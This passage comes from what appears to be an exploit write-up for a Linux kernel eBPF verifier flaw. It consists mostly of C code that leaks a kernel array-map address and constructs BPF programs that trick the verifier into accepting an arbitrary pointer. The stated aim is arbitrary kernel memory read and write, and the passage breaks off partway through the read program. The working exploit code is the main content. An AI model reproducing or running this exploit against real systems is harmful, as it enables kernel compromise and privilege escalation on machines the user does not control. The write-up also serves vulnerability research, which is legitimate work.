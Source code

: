 ```c
    }

    int key = 0;
    err = bpf_lookup_elem(ctx->comm_fd, &key, ctx->bytes);
    if (err != 0) {
        WARNF("Could not lookup comm map: %d (%s)", err, strerror(err));
        goto abort;
    }
    
    u64 array_map = (u64)ctx->ptrs[20] & (~0xFFL);
    if ((array_map&0xFFFFF00000000000) < 0xFFFF800000000000){
        WARNF("Could not leak array map: got %p", (kaddr_t)array_map);
        goto abort;
    }

    ctx->array_map = (kaddr_t)array_map;
    DEBUGF("array_map @ %p", ctx->array_map);

    ret = 0;

abort:
    if (prog > 0) close(prog);
    return ret;
}
```

Now we set up two BPF programs that leverage the same trick as before
to trick the verifier into thinking we have a pointer to something we are allowed
to access (in this case, to the `comm_fd` map same as before), when really it's an arbitrary pointer of our choosing. We
can then read from or write to that arbitrary address.

```c
int prepare_arbitrary_rw(context_t *ctx)
{
    int arbitrary_read_prog = 0;
    int arbitrary_write_prog = 0;

    struct bpf_insn arbitrary_read[] = {
        // r9 = r1
        BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),

        // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
        BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),

        // if (r0 == NULL) exit(1)
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
        BPF_MOV64_IMM(BPF_REG_0, 1),
        BPF_EXIT_INSN(),

        // r8 = r0
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),

        // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
        BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
        BPF_MOV64_IMM(BPF_REG_3, 0x00),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),

        // this is where the verifier loses track of r1
```